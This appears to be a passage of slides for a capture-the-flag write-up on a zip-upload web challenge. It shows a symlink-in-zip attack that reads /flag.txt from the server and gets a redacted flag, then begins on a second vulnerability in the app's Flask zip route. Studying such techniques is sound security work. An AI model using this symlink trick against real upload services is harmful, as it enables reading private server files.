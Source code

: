 class: left, middle

## The answer is...

---
class: left, middle

## ...symlinks ![:i](fas fa-exclamation)

---
class: left, middle

## First try

```bash
$ ln -s /flag.txt flag.txt
$ zip vuln1.zip flag.txt
    zip warning: name not matched: flag.txt
```

---
class: left, middle

## Second try

```bash
$ ln -s /flag.txt flag.txt
$ zip --symlink vuln1.zip flag.txt
  adding: flag.txt (stored 0%)
```

---
background-image: url(/img/zipzap_ctf_writeup/flagtxt.jpg)

---
class: left, middle

Congratz! Here's your flag. 
CCIT{XXXXXXXXXXXXXXXXXXXXXXXXXXXX}

To get the second flag, execute  /getflag 

---
class: left, middle

## Vulnerability ![:i](fas fa-2)

---

## Download all (1/3)

```python
@app.route('/<uid>/zip')
def zip(uid):
    #
    # Create a zip file from user's uploaded files
    #
    path = os.path.join(app.config['USERPATH'], uid)

    try:
        # file list. This simple check should prevent a zip recursion. Also yea, users
        # can't upload any zip file
        files = [filename for filename in os.listdir(
            path) if not filename.endswith('.zip')]

```